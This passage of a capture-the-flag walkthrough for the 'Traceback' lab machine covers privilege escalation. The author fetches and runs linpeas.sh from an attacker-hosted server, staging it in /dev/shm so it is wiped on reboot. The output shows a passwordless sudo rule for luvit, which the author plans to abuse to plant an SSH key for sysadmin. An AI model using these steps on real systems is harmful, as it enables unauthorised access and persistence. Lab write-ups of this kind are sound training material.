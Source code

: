 Let us run LinPEAS and see what it finds. To get linpeas.sh we can run a python3 web server from our machine and then use wget from Traceback. Copy linpeas.sh into a directory and then run:

```bash
python3 -m http.server 8000
```

On Traceback, we can fetch linpeas.sh into a temporary directory /dev/shm. The benefit of using this directory rather than /tmp is that when the machine gets rebooted, the /dev/shm will be cleared, cleaning up any files we might have forgotten. Once downloaded, we change the permissions to execute and then run, putting the output into a file:

```bash
webadmin@traceback:/dev/shm$ wget 
http://10.10.14.117:8000/linpeas.sh

--2020-12-27 20:31:05-- 
http://10.10.14.117:8000/linpeas.sh

Connecting to 10.10.14.117:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 299897 (293K) [text/x-sh]
Saving to: 'linpeas.sh'
linpeas.sh 100%[===================>] 292.87K 237KB/s in 1.2s
2020-12-27 20:31:07 (237 KB/s) - 'linpeas.sh' saved [299897/299897]
webadmin@traceback:/dev/shm$ chmod a+x linpeas.sh
webadmin@traceback:/dev/shm$ ./linpeas.sh -s > linpeas.out
```

Going through the output, the first we find is further evidence that webadmin can run sudo as indicated by the bash history we found earlier. In the LinPEAS output, we see that the output from sudo -l which lists that webadmin has the ability to run the program luvit in /home/sysadmin/luvit/ as user sysadmin:

```bash
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] 
https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid

Matching Defaults entries for webadmin on traceback:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User webadmin may run the following commands on traceback:
(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

Right now, we could continue our enumeration but we seem to have a path to getting access to the sysadmin user and we are going to explore that first. Based on the note, we think that the luvit program will execute Lua script. Lua is the scripting language that nmap uses for any external functionality that it can run. We can use the program running as sysadmin to write an SSH key to the authorized\_keys file in the home directory of sysadmin. The first thing to do is to generate an SSH key using ssh-keygen:

```bash
┌─[rin@parrot]─[~/boxes/Traceback] [34/40]
└──╼ $ssh-keygen -f sysadmin.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in sysadmin.key
Your public key has been saved in sysadmin.key.pub
The key fingerprint is:
SHA256:Nc30lm7tE6QDKmKMUuVSwK1FKJXeLlA0jZ8lUdFCfnk rin@parrot
<SNIP>
```
